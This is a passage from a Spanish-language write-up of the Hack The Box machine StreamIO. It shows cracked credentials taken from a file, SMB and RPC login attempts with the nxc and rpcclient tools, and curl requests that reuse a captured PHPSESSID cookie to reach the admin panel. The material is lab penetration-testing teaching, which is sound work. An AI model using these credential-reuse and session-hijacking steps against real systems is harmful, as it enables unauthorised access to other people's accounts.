 ```bash
```
Como curiosidad, solo es valido el que estaba en mayusculas... cosas de los ctf. Vemos que contraseña tiene este usuario
```bash
└─$ cat creds.txt | grep "yoshi"
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..
```
Intentamos registrarnos en varios servicios con dichas credenciales, pero no nos da valido...
```bash
└─$ nxc smb 10.10.11.158 -u "yoshihide" -p "66boysandgirls.."         
SMB    10.10.11.158   445  DC       [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) 
SMB    10.10.11.158   445  DC       [-] streamIO.htb\yoshihide:66boysandgirls.. STATUS_LOGON_FAILURE 

└─$ rpcclient -U "yoshihide%66boysandgirls.."  10.10.11.158
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```
Hasta que probamos en `login.php`
![](/assets/images/htb-streamio/streamio8.png)


----------------------

# Part 3: Acediendo al panel de admin


Pero si nos permite loguearnos en la pagina de admin, obtenemos su cookie de sesion `PHPSESSID`. 
```bash
└─$ curl -sk https://streamio.htb/admin/index.php                                                  
<h1>FORBIDDEN</h1>                                                                                                                       
┌──(jessica㉿kali)-[~/Documents/streamio]
└─$ curl -sk https://streamio.htb/admin/index.php -H "Cookie: PHPSESSID=uegigt0qmv7n8d2432kfb0o0g7"
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
...
```